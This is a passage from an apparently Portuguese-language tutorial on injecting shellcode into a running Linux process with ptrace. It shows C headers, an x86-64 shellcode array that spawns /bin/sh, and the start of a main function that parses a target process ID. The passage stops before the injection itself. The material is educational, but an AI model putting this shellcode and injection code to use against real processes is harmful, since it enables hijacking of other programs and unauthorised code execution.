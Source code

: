 ```c
#include <stdio.h>          // printf
#include <stdlib.h>         // NULL
#include <unistd.h>         // getpid e qualquer outra coisa
#include <errno.h>          // erros
#include <sys/ptrace.h>     // a biblioteca ptrace
#include <sys/wait.h>       // waitpid
#include <sys/user.h>       // type user_regs_struct
#include <sys/types.h>      // pid_t

```

E inserir nosso shellcode:

```c
unsigned char shellcode[] = {
  0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73,
  0x68, 0x00, 0x53, 0x48, 0x89, 0xe7, 0x50, 0x57, 0x48, 0x89, 0xe6, 0x48,
  0x31, 0xd2, 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05

};

size_t shellcodeLen = sizeof(shellcode);
```

Após isso, nós já podemos iniciar a função principal (se você quiser, nada te impede de criar uma função para fazer a injeção, mas para facilitar o entendimento, faremos tudo na main):

```c
int main(int argc, char *argv[])
```

O parâmetro `argc` conta a quantidade de argumentos passados na hora de executar o programa, e o `argv` é um array de strings que contém os argumentos (o primeiro argumento sempre será o nome do programa).

### Parse do PID inserido pelo usuário

Para _parsear_ o PID, precisamos verificar se o usuário inseriu o PID corretamente:

```c
if (argc != 2) { // Se argc for menos de 2 args (primeiro é o caminho do binário)
    printf("Usage: %s <pid>\n", argv[0]); // Printa o jeito correto de utilizar 
    return 1; // Retorna 1 (shell interpreta como um erro)

}

pid_t procID = (pid_t)atoi(argv[1]); // Atoi converte argv[1] para int, e depois fazemos cast para pid_t (atoi é inseguro, o ideal é usar strtol)
if (procID <= 0) { // Se o PID for inválido
    fprintf(stderr, "Invalid PID\n", argv[1]); // Print o erro
    return 1; // Retorna 1 (erro)

}
```

